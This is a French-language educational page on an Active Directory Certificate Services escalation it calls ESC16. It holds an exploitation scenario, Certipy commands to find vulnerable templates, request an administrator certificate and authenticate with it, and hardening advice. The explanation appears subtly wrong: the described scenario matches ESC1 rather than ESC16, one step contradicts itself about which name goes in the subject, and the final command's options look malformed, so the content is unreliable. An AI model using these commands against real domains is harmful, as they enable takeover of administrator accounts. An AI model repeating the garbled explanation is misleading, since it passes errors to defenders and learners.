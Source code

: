```yaml
---
title: ESC16
date: '2025-07-15'
draft: false
---
```


# 🛡️ ESC16

## Qu'est-ce que la vulnérabilité ESC16 ?

**ESC16** est une vulnérabilité liée à l'Active Directory Certificate Services (AD CS) permettant à un attaquant d'obtenir des privilèges élevés en abusant de mauvaises configurations sur l'autorité de certification.

## 🎯 Objectifs pédagogiques

- Comprendre le fonctionnement d'AD CS et des certificats dans AD
- Savoir comment l'attaque ESC16 est réalisée
- Identifier les risques liés à la délégation de droits sur les templates de certificats

## 📋 Exemples de vulnérabilités et exploitation

### Vulnérabilités courantes

- **Templates de certificats mal configurés** : Permettent à des utilisateurs non privilégiés de demander des certificats avec des droits élevés.
- **Extensions dangereuses activées** : Possibilité de demander des certificats pour n'importe quel utilisateur (ESC1, ESC2, ESC8, ESC13, ESC16, etc.).

### Scénario d'exploitation

1. **Identification d'un template vulnérable** :
   - L'attaquant repère un template de certificat qui permet l'inscription par des utilisateurs standards et l'option "ENROLLEE SUPPLIES SUBJECT".
2. **Demande d'un certificat d'administrateur** :
   - L'attaquant demande un certificat pour un compte administrateur en spécifiant son propre nom d'utilisateur dans le champ subject.
3. **Utilisation du certificat pour s'authentifier** :
   - L'attaquant utilise le certificat obtenu pour s'authentifier en tant qu'administrateur.

### Commandes d'exploitation avec Certipy

```bash
# Enumérer les templates vulnérables
certipy-ad find -u user -p 'Password123!' -dc-ip 10.10.10.2 -domain ad.local

# Demander un certificat pour un compte admin
certipy-ad req -u user -p 'Password123!' -ca ca.ad.local -template vuln_template -upn admin@ad.local -dc-ip 10.10.10.2

# Utiliser le certificat pour s'authentifier
certipy-ad auth -u admin@ad.local -p '' -key admin.pfx -dc-ip 10.10.10.2
```

## 🛡️ Bonnes pratiques

- Restreindre les droits d'inscription sur les templates de certificats
- Désactiver les extensions dangereuses sur les templates
- Auditer régulièrement la configuration d'AD CS

## 📚 Ressources utiles

- [HackTricks - ESC16](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-cs-esc1-esc13#esc16)
- [Certipy - ESC16](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation)
- [Microsoft - AD CS](https://learn.microsoft.com/fr-fr/windows-server/identity/ad-cs/)

---

_Dernière mise à jour : 15 juillet 2025_
